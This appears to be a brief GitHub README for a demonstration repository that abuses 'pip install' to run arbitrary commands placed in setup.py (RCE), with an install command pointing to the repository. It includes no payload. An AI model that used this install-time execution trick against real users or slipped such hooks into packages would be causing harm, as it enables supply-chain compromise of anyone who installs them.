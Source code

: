 # What

A simple github version of `this_is_fine_wuzzi` which is used to hack `pip install` (RCE).

# How

Modify your own cmd in `setup.py`.
Run:
```bash
pip install git+https://github.com/Lyutoon/this_is_fine_wuzzi
```
